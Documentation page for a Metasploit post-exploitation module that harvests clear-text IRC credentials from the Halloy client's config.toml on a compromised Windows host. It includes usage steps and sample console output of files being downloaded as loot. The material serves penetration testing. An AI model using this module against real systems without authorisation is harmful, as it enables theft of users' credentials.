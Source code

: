 ## Vulnerable Application

This post-exploitation module extracts clear text credentials from the Halloy IRC Client.

The Halloy IRC Client is avaialble from (https://github.com/squidowl/halloy).

This module extracts information from the config.toml file in the "AppData\Roaming\Halloy" directory.

This module extracts server information such as server, port, nickname, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/halloy_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/halloy_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Halloy irc's Config.toml file found
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_HalloyIRCconfig_968975.toml

[+] server="irc.libera.chat"
[+] port=6697
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_EXTRACTIONconfig_815098.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```

msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Halloy irc's base folder not found in users's user directory

[*] Starting Packrat...
[*] Halloy irc's base folder found
[*] Found the folder containing specified artifact for config.toml.
[*] Halloy irc's Config.toml file found
[*] Processing C:\Users\test\AppData\Roaming\halloy
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_HalloyIRCconfig_292638.toml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] server="irc.libera.chat"
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] port=6697
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_EXTRACTIONconfig_238220.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
